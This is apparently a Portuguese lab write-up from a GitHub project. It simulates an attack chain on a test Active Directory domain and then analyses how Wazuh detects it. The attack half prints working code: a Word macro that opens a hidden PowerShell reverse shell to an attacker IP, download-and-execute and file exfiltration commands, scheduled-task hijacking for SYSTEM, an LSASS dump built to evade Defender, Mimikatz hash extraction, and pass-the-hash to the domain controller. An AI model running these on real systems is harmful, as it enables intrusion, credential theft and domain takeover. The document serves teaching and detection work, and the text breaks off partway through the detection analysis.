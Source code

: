 ### **Em construção...... Analise pos ataque em construção**


# Simulação de Cadeia de Ataque - Laboratório de Segurança Ofensiva
<br>
<br>

## Objetivo

Esta parte do projeto é a continuação do projeto anterior [Windows Server AD](https://github.com/MercioRodrigues/Windows-server-AD/blob/main/README.md), no qual foi construído, em laboratório, um ambiente Active Directory. Foram também utilizadas ferramentas que já tinham sido preparadas em outro projeto que realizei anteriormente, o [SOC SOAR Project](https://github.com/MercioRodrigues/SOC-SOAR-Project), nomeadamente o **Wazuh**.  
<br>  
Esta fase tem como objetivo simular uma cadeia de ataque realista em um ambiente de domínio Windows, sem detecção por parte do Windows Defender, explorando diferentes etapas de comprometimento típicas de atacantes reais. A simulação foi conduzida em um laboratório controlado, permitindo, posteriormente, a análise detalhada de cada fase da intrusão.


A cadeia de ataque envolve as seguintes etapas:

1. [Acesso inicial:](#-fase-1---acesso-inicial-via-macro-em-documento-word-phishing) comprometimento de uma estação de trabalho através da execução de uma macro maliciosa em um documento do Word.
2. [Escalada de privilégios local:](#-fase-2--escalada-de-privil%C3%A9gios-local) obtenção de privilégios SYSTEM explorando uma tarefa agendada mal configurada.
3. [Enumeração do dominio:](#-fase-3--enumera%C3%A7%C3%A3o-p%C3%B3s-escala%C3%A7%C3%A3o) Enumerar o ambiente local e de domínio e avaliar a viabilidade de extrair as credenciais da memória (lsass.exe).
4. [Exfiltração de credenciais e Acesso ao DC:](#fase-4--extra%C3%A7%C3%A3o-de-credenciais-e-acesso-ao-dc) extração da memória do processo LSASS para capturar credenciais em texto claro e hashes NTLM e acesso ao controlador de domínio (Domain Controller) utilizando técnicas de Pass-the-Hash.
 

[Análise pós-ataque:](#A1lise-p%C3%B3s-ataque) utilização de ferramentas de monitorização e deteção como **Wazuh** para investigar a intrusão e compreender os rastros deixados nos logs do sistema e na rede.

O objetivo final é obter não apenas uma shell no controlador de domínio, mas também documentar detalhadamente os indicadores de comprometimento (IoCs), comportamentos suspeitos e evidências forenses que podem ser usadas por equipes de defesa para deteção precoce e resposta a incidentes.

---

⚠️ *Aviso: Este projeto foi realizado exclusivamente para fins educacionais e em ambiente isolado. Nenhuma das técnicas aqui descritas deve ser utilizada em ambientes reais sem autorização explícita.*


<br>
<br>

## 🧪 Fase 1 - Acesso Inicial via Macro em Documento Word (Phishing)

Nesta fase inicial, o atacante utilizou **engenharia social (phishing)** para induzir um colaborador da organização a abrir um documento Word malicioso. O documento continha uma macro em VBA (Visual Basic for Applications) configurada para executar automaticamente ao abrir o ficheiro.

###  Objetivo

Obter uma **shell reversa PowerShell** no sistema da vítima sem levantar suspeitas, utilizando `Wscript.Shell` para evadir políticas de execução e manter a execução em segundo plano.

---

### Conteúdo da Macro

A macro maliciosa foi inserida no Editor do Visual Basic para Aplicações, dentro do módulo `NewMacros`. O código é dividido em duas partes:

- `AutoOpen()`: executa a macro automaticamente ao abrir o ficheiro
- `test()`: define e executa o payload PowerShell em modo oculto

```vb
Sub AutoOpen()
    Call test
End Sub

Sub test()
    ' test Macro
    Dim objshell As Object
    Set objshell = CreateObject("Wscript.Shell")
    objshell.Run "powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command ""$command = {while($true){try {$cl = New-Object System.Net.Sockets.TcpClient('192.168.1.205',443);$st = $cl.GetStream();$rd = New-Object IO.StreamReader($st);$wr = New-Object IO.StreamWriter($st);$wr.AutoFlush = $true;while($cl.Connected){$cmd = $rd.ReadLine();if($cmd -eq 'exit'){break;}try{$res = iex $cmd 2>&1 | Out-String;}catch{$res = $_.Exception.Message;} $wr.WriteLine($res);$wr.Flush();}$cl.Close();}catch{Start-Sleep -Seconds 10;}}}; Start-Process powershell -WindowStyle Hidden -ArgumentList '-NoProfile', '-ExecutionPolicy', 'Bypass', '-Command', $command"""
    Set objshell = Nothing
End Sub
```

<p align="center">
 
  <br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/14196c25-96e6-43dc-b1f4-ce14bd0be6be" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

---

### Listener do Atacante

Enquanto o documento era aberto pela vítima, o atacante encontrava-se à escuta na máquina Kali, utilizando `netcat` com `rlwrap` para suportar histórico e edição de linha:

```bash
rlwrap nc -lvnp 443
```
<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/1d6fd6d7-a226-44c2-a28a-da105117975d" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

**Resumo**

O código PowerShell embutido na macro estabelece uma conexão TCP reversa para o endereço do atacante (192.168.1.205) na porta 443. Após a conexão, o script entra num loop que:

**1.** Recebe comandos enviados pelo atacante

**2.** Executa os comandos localmente com Invoke-Expression (iex)

**3.** Envia a saída da execução de volta através do canal TCP

Este tipo de técnica é comum em ataques fileless, pois evita gravações em disco e contorna políticas de execução do PowerShell.

 <br/>
    <br/>

## 🧪 Fase 2 — Escalada de Privilégios Local

Após o acesso inicial, o próximo objetivo foi escalar privilégios para obter controlo total do sistema como **NT AUTHORITY\SYSTEM**.  
Esta fase consistiu na **descoberta e exploração de uma tarefa agendada mal configurada**, permitindo a execução de código com permissões elevadas.

---

### 1. Preparação do Ambiente de Investigação

Foi criado um servidor de upload/download em Python na máquina atacante para facilitar a transferência de ficheiros entre as máquinas:

```bash
python3 upload_server.py
# [+] Serving HTTP upload/download server at port 8080
```

---

### 2. Execução do WinPEAS e Exfiltração do Output

Na shell da vítima, foi executado o `winPEASps1.ps1`, e a saída foi guardada num ficheiro `.txt`:

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.205:8080/winPEASps1.ps1') | Out-File "$env:USERPROFILE\Downloads\winpeas.txt" -Encoding ASCII
```

Em seguida, o ficheiro foi exfiltrado para a máquina do atacante:

```powershell
Invoke-RestMethod -Uri "http://192.168.1.205:8080/winpeas.txt" -Method PUT -InFile "C:\Users\jsilva\Downloads\winpeas.txt"
```

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/d11db3f6-816b-45a4-b7a7-11ef05ae2246" height="60%" width="60%"/>
    <br/>
    <br/>
    <img src="https://github.com/user-attachments/assets/1cd6ede9-e275-484c-9a32-ac27e3fbdcac" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>



---

### 3. Análise do Output do WinPEAS

Na máquina atacante, o output foi segmentado por tarefas agendadas:

```bash
awk '
/^TaskName:/ {
    ++i;
    f = sprintf("task_%03d.txt", i);
}
f { print > f }
' winpeas.txt
```

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/1dacf129-6f1a-4b05-8fcb-f7febbe8d0bb" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>
    

Depois, filtrou-se por tarefas que correm como `SYSTEM`:

```bash
grep -l "Run As User: *SYSTEM" task_*.txt > SYSTEM_tasks.txt
```

E procuraram-se scripts suspeitos:

```bash
grep -Ei "ps1|bat|cmd|exe" $(cat SYSTEM_tasks.txt) | grep -i "task to run"
```
<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/845d809a-25e0-4a1a-b050-028f2f5db977" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>


Foi identificado a seguinte tarefa crítica:

```text
task_012.txt:Task To Run: powershell.exe -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -File C:\TempTask\svc_launcher.ps1
```

Lendo o conteudo de **task_012.txt** conseguimos obter a informação mais completa sobre a tarefa.

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/c523e3eb-39da-4398-b588-4091550ed2bf" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>
    

---

### 4. Verificação de Permissões

Foi verificado que o utilizador comprometido (`jsilva`) tinha permissões de **controlo total** sobre o ficheiro `.ps1` usado pela tarefa:

```powershell
icacls C:\TempTask\svc_launcher.ps1
```
<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/875ef2f9-e9af-465e-b1c8-45014cca5b24" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>


Saída relevante:

```
PILAO\jsilva:(I)(F)          → Full control — pode sobrescrever este ficheiro
NT AUTHORITY\SYSTEM:(I)(F)   → A tarefa agendada corre o script como SYSTEM
```

---

### 5. Substituição do Script e Execução da Tarefa

Foi feito o upload de um **script malicioso** com reverse shell, substituindo o original:

```powershell
powershell -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'http://192.168.1.205:8080/svc_launcher.ps1' -OutFile 'C:\TempTask\svc_launcher.ps1'"
```

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/4d36fb25-f3e4-47c3-b7c3-4efe2c2cf370" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>


Como a tarefa era configurada para correr ao arrancar o sistema, pode-se esperar que a vitima inicie a máquina mas, como tratasse de um laboratório forcei o reinício:

```powershell
Restart-Computer -Force
```

---

### 6. Resultado — Shell como SYSTEM

Na máquina atacante, aguardou-se ligação à porta 4444:

```bash
rlwrap nc -lvnp 4444
```

Após o reinício da vítima:

<p align="center">
    <br/>
    <br/>
      <img src="https://github.com/user-attachments/assets/448ad18a-e3b8-4bee-b28b-f0d69decd94f" height="60%" width="60%"/>
    <br/>
    <br/>
<p/>




A escalada foi bem-sucedida! O atacante obteve **acesso completo com privilégios SYSTEM**.

---

### Resumo

A má configuração de permissões num script chamado por uma tarefa agendada como SYSTEM foi explorada com sucesso para **escalar privilégios localmente**.

A utilização do `winPEAS` permitiu descobrir a vulnerabilidade, a análise de permissões confirmou a possibilidade de exploração, e a substituição do script permitiu ganhar **controlo total do sistema**, com acesso **persistente**.

<br/>
<br/>

## 🧪 Fase 3 – Enumeração Pós-Escalação

Após escalar privilégios locais até `NT AUTHORITY\SYSTEM`, o objetivo passou a ser:

- **Enumerar o ambiente local e de domínio**  
- **Avaliar a viabilidade de extrair credenciais da memória (`lsass.exe`)**

---

### 1. Verificar se a máquina está num domínio

```powershell
systeminfo | findstr /B /C:"Domain"
```

**Resultado:**

```
Domain: pilao.pt
```

✅ Isto confirma que a máquina está unida ao domínio `pilao.pt`. Esse facto é importante porque credenciais de **utilizadores do domínio** podem estar armazenadas em memória, especialmente se fizeram login interativo recentemente.

---

### 2. Obter o hostname da máquina comprometida

```powershell
hostname
```

**Resultado:**

```
Client1
```

Esta informação ajuda a identificar o endpoint dentro da infraestrutura.

---

### 3. Listar utilizadores locais e de domínio

```powershell
wmic useraccount get name,sid
```

🔍 Procura por utilizadores olhando para o `RID`:

- `500` → Administrator  
- `502` → krbtgt (conta usada pelo Kerberos)  
- `1000+` → contas personalizadas  

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/b1e32638-eeb0-4172-b39f-899b302a4ac4" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

```powershell
net group "Domain Admins" /domain
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/4a37c0e3-06c1-47da-bbc6-865846bea87b" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>


**Resultado:**

```
Group name     Domain Admins
Members:
  Administrator
```

✅ A presença do utilizador `Administrator` no grupo `Domain Admins` confirma que este tem **controle total** sobre o domínio.

---

### 4. Ver permissões

```powershell
whoami /all
```
<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/023e075c-27b1-4029-a32c-29dceddff2b9" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>


**Resultados importantes:**

User: NT AUTHORITY\SYSTEM

Groups:
- BUILTIN\Administrators
- NT AUTHORITY\SERVICE
- NT AUTHORITY\Authenticated Users
- NT AUTHORITY\This Organization
- LOCAL
- NT SERVICE\Schedule

Previlégios:
**SeDebugPrivilege:** ✅ Enabled

✅ Isto confirma:
- Estamos como NT **AUTHORITY\SYSTEM**
- Com **privilégios máximos no domínio**
- E com o privilégio **SeDebugPrivilege**, necessário para ler a memória de lsass.exe




🚨 O privilégio `SeDebugPrivilege` permite ler a memória de processos de outros utilizadores, inclusive do `lsass.exe`.

---

### 5. Enumerar os Controladores de Domínio (Domain Controllers)

```powershell
nltest /dclist:pilao.pt
```

**Resultado:**

```
Marcio.pilao.pt [PDC]
```
<br/>
<br/>

**Comando**

```powershell
nslookup -type=SRV _ldap._tcp.dc._msdcs.pilao.pt
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/fa036c25-c1b6-4673-98c9-df17860bed9d" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>


**Resultado:**

```
_ldap._tcp.dc._msdcs.pilao.pt   SRV service location:
    svr hostname = marcio.pilao.pt
    svr hostname = server2.pilao.pt

marcio.pilao.pt -> 192.168.1.200  
server2.pilao.pt -> 192.168.1.201
```

✅ Identificar os Domain Controllers é essencial para **movimento lateral**.

---

### 6. Verificar partilhas administrativas no domínio

```powershell
net view \\pilao.pt
```

**Resultado:**

```
NETLOGON    Disk    Logon server share
SYSVOL      Disk    Logon server share
```

**Estes são diretórios críticos do AD, usados para scripts de login e políticas de grupo (GPOs).** 

---

### 7. Testar acesso ao C$ (Admin Share) no DC

```powershell
Start-Process cmd -ArgumentList '/c net use \\pilao.pt\C$' -WindowStyle Hidden
```

```powershell
Get-SmbConnection | Select-Object -Property ShareName, ServerName, UserName
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/d0b0f854-9e95-483a-97ec-383e0e512ea7" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

**Resultado:**

```
ShareName ServerName       UserName
--------- -----------      --------
IPC$      Marcio.pilao.pt  PILAO\CLIENT1$
C$        pilao.pt         PILAO\Administrator
```

✅ Isto confirma que a shell atual tem acesso **total** ao sistema de ficheiros do DC via `C$` — partilha administrativa para administradores.

---

### Implicações para o Atacante

Com estes dados confirmados:

- ✅ Shell com privilégios de **Domain Admin**  
- ✅ Acesso SMB autenticado ao Domain Controller  
- ✅ Capacidade para:   
  - Exfiltrar credenciais  
  - Iniciar **movimento lateral** (pivoting) ou **persistência em domínio**

---

### Conclusão da Fase 3

Com privilégios de `NT AUTHORITY\SYSTEM` e verificação de que estamos como **Domain Admin**, foi possível confirmar que o sistema comprometido é uma excelente base para:

- Extração de credenciais da memória (`lsass.exe`).
- Acesso irrestrito ao domínio.  

---

<br/>
    <br/>

## 🧪Fase 4 — Extração de Credenciais e Acesso ao DC

Após a obtenção de privilégios SYSTEM, o objetivo passou a ser capturar credenciais da memória do processo `lsass.exe`, de forma furtiva e sem acionar o Defender. Essas credenciais permitiram depois acesso ao Controlador de Domínio.

---

### 1. Compilar o NativeDump no Kali Linux

A ferramenta utilizada foi o **NativeDump** (versão em Golang), que depois de sofrer cross-compilation não foi detetável por soluções como o Windows Defender.

```bash
wget https://raw.githubusercontent.com/ricardojoserf/NativeDump/main/golang-flavour/nativedump.go
```

Inicialização do projeto Go:

```bash
go mod init nativedump
go mod tidy
```

Compilação para Windows (cross-compilation):

```bash
env GOOS=windows GOARCH=amd64 go build nativedump.go
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/a252cd72-e443-4422-a4e3-d41527263962" height="80%" width="80%"/>
    <br/>
    <br/>
  <p/>



✅ Gera o ficheiro `nativedump.exe`, pronto para transferência.

---

### 2. Transferência do Executável para a Vítima

```powershell
Invoke-WebRequest -Uri "http://192.168.1.205:8080/nativedump.exe" -OutFile "C:\Windows\Temp\nativedump.exe"
cd C:\Windows\Temp
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/bccb6186-b9d4-468a-b900-b3eb673126bf" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

Transferência feita sem levantar alertas.

---

### 3. Dump de LSASS

```powershell
.\nativedump.exe -o .\proc_664.dmp
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/3125424b-68fa-4579-a267-79478a053e1e" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

✅ O NativeDump identificou automaticamente o PID do processo `lsass.exe` e gerou um dump da sua memória sem alertar o Windows Defender. Este dump incluiu credenciais e hashes em uso no momento.

---

### 4. Exfiltrar o Dump para o Atacante

```powershell
Invoke-RestMethod -Uri "http://192.168.1.205:8080/proc_696.dmp" -Method PUT -InFile "C:\Windows\Temp\proc_696.dmp"
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/69713f1e-ff9c-4051-9ad8-6ca858fcae0f" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

✅ O dump foi transferido com sucesso para análise offline no Kali.

---

### 5. Análise com Mimikatz

A análise do ficheiro `.dmp` foi feita offline no Kali com **Mimikatz**, via `wine`:

```bash
wine mimikatz.exe
```

Comandos utilizados:

```mimikatz
sekurlsa::minidump /home/kali/Downloads/uploadserver/proc_696.dmp
sekurlsa::logonPasswords
```

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/30aa347b-b5bb-4763-a773-a5f013692b45" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/760f2bf8-63d6-42ba-9143-596a1c739a0d" height="60%" width="60%"/>
    <br/>
    <br/>
  <p/>


**Output relevante:**

```
Username : Administrator 500
NTLM     : a1f074c272b7d460ccdd7f8f19c5419b
Já sabemos que pertence ao domínio PILAO e o DC tem IP:192.168.1.200 
```

✅ Obtido o hash NTLM do utilizador `Administrator` (confirmado como membro do grupo `Domain Admins`).

---

### 6. Acesso Remoto com Pass-The-Hash

Com as informações necessárias e o hash NTLM em posse, foi possível autenticar no **Controlador de Domínio** remotamente:

```bash
python3 ~/impacket/examples/wmiexec.py PILAO/Administrator@192.168.1.200 -hashes :a1f074c272b7d460ccdd7f8f19c5419b
```


<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/b990afa8-37c4-4eca-9e0f-9f8b189664e5" height="100%" width="100%"/>
    <br/>
    <br/>
  <p/>

Shell remota estabelecida:

```cmd
C:\> whoami
pilao\administrator
```

---

### ✅ Resultado

O atacante agora detém controlo completo sobre o domínio:

- Acesso ao **DC (Domain Controller)**
- Permissões de **Administrador de Domínio**
- Capacidade de:
  - Extrair hashes de toda a base de utilizadores
  - Modificar políticas de grupo (GPOs)
  - Criar utilizadores e persistência
  - Efetuar **movimentações laterais**
  - Lançar ataques como Golden Ticket ou DCSync

---

<br/><br/>
<br/><br/>

# Análise pós-Ataque

<br/>
<br/>

##  Fase 1 — Deteção de Acesso Inicial via Macro Maliciosa (Phishing)
<br/>
<br/>

###  Objetivo da Monitorização
<br/>

Detectar tentativas de execução remota sem ficheiros (fileless), explorando macros em documentos do Office e invocação de comandos PowerShell com técnicas de evasão.

---
<br/>
<br/>

###  Detalhes da Deteção com Wazuh

Durante esta fase, o agente Wazuh configurado na máquina da vítima reportou diversos eventos críticos que ajudam a reconstruir o vetor de intrusão.
<br/>
<br/>
![Screenshot 2025-06-22 002321](https://github.com/user-attachments/assets/04d864fb-a471-46c2-b14f-3e421998afe9)
<br/>
<br/>
*Resumo cronológico dos alertas gerados nesta fase, fornecendo contexto de execução e correlação entre regras.*

---
<br/>
<br/>

###  1. Criação de ficheiro `.LNK` via WINWORD.EXE


<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/b19d84b0-be06-44eb-9600-c98fd7207921" height="80%" width="80%"/>
    <br/>
    <br/>
  <p/>


> Este alerta mostra que a aplicação Microsoft Word (`WINWORD.EXE`) criou um ficheiro `.LNK` suspeito em `AppData\Roaming\Microsoft\Office\Recent`.

**Detalhes relevantes:**
- **Técnica detetada**: `T1187` — *Forced Authentication*
- **Ficheiro gerado**: `test.LNK`
- **Canal**: `Microsoft-Windows-Sysmon/Operational`
- **User**: `PILAO\\jsilva`

> ⚠️ Este tipo de evento é frequentemente associado a métodos iniciais de persistência ou spear phishing, onde o `.LNK` serve de ponte para execução remota ou carga maliciosa adicional.

---
<br/>
<br/>

###  2. Execução de Script PowerShell com TcpClient

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/cf846f9c-3b4d-4198-b14f-6ef0ee7eabda" height="80%" width="80%"/>
    <br/>
    <br/>
  <p/>


> Foi registada a criação de um script PowerShell que estabelece uma ligação TCP à máquina de controlo (`192.168.1.205:443`).

**Comportamento detetado:**
- **Canal**: `Microsoft-Windows-PowerShell/Operational`
- **Técnica usada**: `TcpClient` (System.Net.Sockets)
- **Severidade**: `WARNING`
- **Indicadores de Evasão**:
  - `-NoProfile`
  - `-ExecutionPolicy Bypass`
  - `-WindowStyle Hidden`
- **Evento ID**: `4104` — Execução de blocos de script PowerShell

> ⚠️ Estes padrões são comuns em **reverse shells** fileless, onde o código malicioso não reside no disco, dificultando deteção baseada em assinaturas.

---

<br/>
<br/>

###  3. Ligação de Rede por PowerShell

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/f9f16950-3598-4981-8742-58f1d1c51148" height="80%" width="80%"/>
    <br/>
    <br/>
  <p/>

> Foi detetada uma ligação de rede iniciada por PowerShell para o endereço `192.168.1.205`, porta `443`.

**Pontos chave do alerta:**
- **Regra Wazuh**: `technique_id=T1059.001` (PowerShell Execution)
- **Processo ativo**: `C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe`
- **Origem do utilizador**: `PILAO\\jsilva`
- **Canal de deteção**: Sysmon

> ⚠️ Comunicação na porta 443 com comportamento PowerShell é altamente suspeita de canal C2 (Command and Control).

---

<br/>
<br/>

###  4. Execução de whoami.exe em contexto malicioso

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/0b8cb22d-4066-4b3e-915c-94980031f3a8" height="80%" width="80%"/>
    <br/>
    <br/>
  <p/>



> O sistema detetou a execução de `whoami.exe` iniciada a partir de `powershell.exe`, com o parent command sendo o script malicioso executado que originou a reverse shell. Corroborando a ideia que o comando whoami foi executado na reverse shell.

**Cadeia de processo:**
- **Parent**: `powershell.exe` com `TcpClient`
- **Child**: `C:\Windows\SysWOW64\whoami.exe`
- **Propósito**: confirmação de permissões no sistema

> ⚠️ É comum em ataques pós-exploração para validar se o acesso obtido tem privilégios adequados para continuar o ataque.

---
<br/><br/>

### ✅ Conclusão da Fase 1
<br/><br/>
A Wazuh demonstrou capacidades eficazes na deteção de comportamentos **fileless**, utilizando análise de processo, criação de ficheiros, execução de comandos PowerShell, e atividades de rede.

**Resumo dos indicadores detetados:**
- Execução remota via `WINWORD.EXE`
- `.LNK` drop suspeito
- Script PowerShell com ligações TCP e bypass de políticas
- whoami executado sob contexto malicioso

🔐 **Recomendações:**
- Usar políticas de grupo (GPO) para bloquear completamente macros em ficheiros provenientes da internet.
- Configurar o Office para apenas permitir macros assinadas digitalmente por entidades confiáveis.
- Criar regras para bloquear execução de PowerShell em contextos não administrativos.
- Bloquear escrita de .lnk em diretórios sensíveis por parte de aplicações como WINWORD.EXE
- Usar AMSI (Antimalware Scan Interface) para bloquear scripts ofuscados ou suspeitos em tempo real.
- Usar EDR para bloquear execuções suspeitas com base em heurística e MITRE ATT&CK TTPs.
- Usar alerta de correlação para deteção multi-evento (chain-based).
- Realizar campanhas regulares de simulação de phishing e Treinar colaboradores para não ativar conteúdo (ex: macros) de fontes desconhecidas

---

<br/><br/>
#### Resultado

A fase de acesso inicial foi plenamente detetada pelo Wazuh com base em:
- Relacionamento de processos (Office → PowerShell)
- Comportamento de rede anómalo
- Comando PowerShell suspeito
- Execução fileless in-memory

Estes dados permitiriam uma **ação de resposta imediata e eficaz** por parte de um SOC ou EDR automatizado.

---
<br/>
<br/>

#  Fase 2 — Escalada de Privilégios

<br/>
<br/>

##  Alertas Gerados

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/e5280d6f-2b8c-4c14-abc5-c4fc6d2e3ce4" height="80%" width="80%"/>
 <br/>
   <br/>
 <img src="https://github.com/user-attachments/assets/1e52597f-becb-4683-aba3-110be8ba0ec9" height="80%" width="80%"/>
    <br/>
    <br/>
  <p/>

> Durante esta fase, é evidente o início da pós-exploração, com o objetivo de obter controlo privilegiado sobre o sistema. As imagens mostram uma sequência coordenada de alertas relacionados com execução de código, comunicações de rede, movimentação lateral e potenciais alterações ao sistema para persistência.

<br/>
<br/>

###  Padrões identificados:
- Utilização de **PowerShell para executar comandos remotamente**.
- **Exfiltração de dados** usando `Invoke-RestMethod`.
- Comunicação com um servidor de controlo na porta **8080**, usada para upload e download de scripts e resultados.
- Execução de binários do sistema (`icacls.exe`, `schtasks.exe`) a partir de localizações suspeitas.
- Alertas sobre **possível execução de código via strings**, download cradles e criação ou alteração de scripts `.ps1`.

<br/>
<br/>

> ⚠️ Estes eventos indicam claramente uma **fase de escalada de privilégios local**, na qual o atacante procura aumentar o seu nível de acesso, manter persistência e preparar fases subsequentes de exploração.

---

<br/>
<br/>

##  1. Transferência de Script PowerShell via HTTP (winPEAS)

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/7f11b134-5041-4fb8-ad49-064e94ae245e" height="80%" width="80%"/>
 <br/>
   <br/>
 <img src="https://github.com/user-attachments/assets/59382103-474c-4647-a342-669e9b19e7d0" height="80%" width="80%"/>
    <br/>
    <br/>
  <p/>

> ⚠️ Foi detetada uma ligação de rede iniciada pelo processo `powershell.exe` para o endereço **192.168.1.205** na porta **8080**, seguida da execução de um comando para descarregar e executar um script e o seu output armazenado num ficheiro.

---

<br/>
<br/>

### Detalhes do Comportamento

- **Processo responsável**: `C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe`
- **Comando executado**:
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.205:8080/winPEASps1.ps1') | Out-File "$env:USERPROFILE\Downloads\winpeas.txt" -Encoding ASCII
```
- **Origem da ligação**: `192.168.1.206`
- **Destino da ligação**: `192.168.1.205:8080`
- **Canal de eventos**: `Microsoft-Windows-PowerShell/Operational`
- **Tipo de evento**:
  - `4104` — Execução de ScriptBlock
  - `3` — Conexão de rede via PowerShell
<br/>
<br/>

### 🔍 Interpretação Defensiva

Este conjunto de eventos mostra um **comportamento clássico de pós-exploração**, onde o atacante utiliza o PowerShell para descarregar ferramentas auxiliares como o **winPEAS**, com o intuito de **enumerar o sistema local** e identificar potenciais vetores de escalada de privilégios, neste caso para escapar ao Windows defender foi descarregado um script para enumeração simples sendo assim evasiva.

O uso da função `IEX` (Invoke-Expression), aliado ao `DownloadString`, constitui um **método típico de execução fileless**. O ficheiro é descarregado diretamente para a memória e armazenado localmente.

---

<br/>
<br/>

##  2. Exfiltração de Dados via `Invoke-RestMethod`

<p align="center">
<br/>
  <br/>
  <img src="https://github.com/user-attachments/assets/24a355a3-bcbc-41f6-b55e-17b159e18763" height="80%" width="80%"/>
    <br/>
    <br/>
  <p/>

>  ⚠️ Este alerta registado pela Wazuh demonstra claramente a **exfiltração do ficheiro** para um servidor remoto, usando o comando `Invoke-RestMethod` com o método HTTP `PUT`.

---

<br/>
<br/>

### Detalhes técnicos do alerta:

- **Comando invocado**:
  ```powershell
  Invoke-RestMethod -Uri "http://192.168.1.205:8080/winpeas.txt" -Method PUT -InFile "C:\Users\jsilva\Downloads\winpeas.txt"
  ```
- **Canal**: Microsoft-Windows-PowerShell/Operational  
- **Ficheiro exfiltrado**: `winpeas.txt`, gerado anteriormente com os resultados da enumeração feita via WinPEAS  
- **Destino remoto**: `192.168.1.205` na porta `8080` (servidor de receção configurado pelo atacante)
- **Processo associado**: `powershell.exe` com PID `8296`  
- **Severidade**: `INFORMATION`, mas com conteúdo altamente sensível

---
<br/>
<br/>

**Contexto adicional:**

O payload revela que a sessão PowerShell foi iniciada com parâmetros evasivos:
- `-NoProfile`
- `-ExecutionPolicy Bypass`

A exfiltração é realizada após a execução do script de enumeração, e demonstra a tentativa de **subtrair dados críticos do sistema de forma encoberta**, usando um canal HTTP simples e fácil de omitir inspeção profunda de pacotes (DPI).

<br/>
<br/>

##  3. Verificação de Permissões e Substituição Maliciosa de Script Agendado

<br/>
<br/>

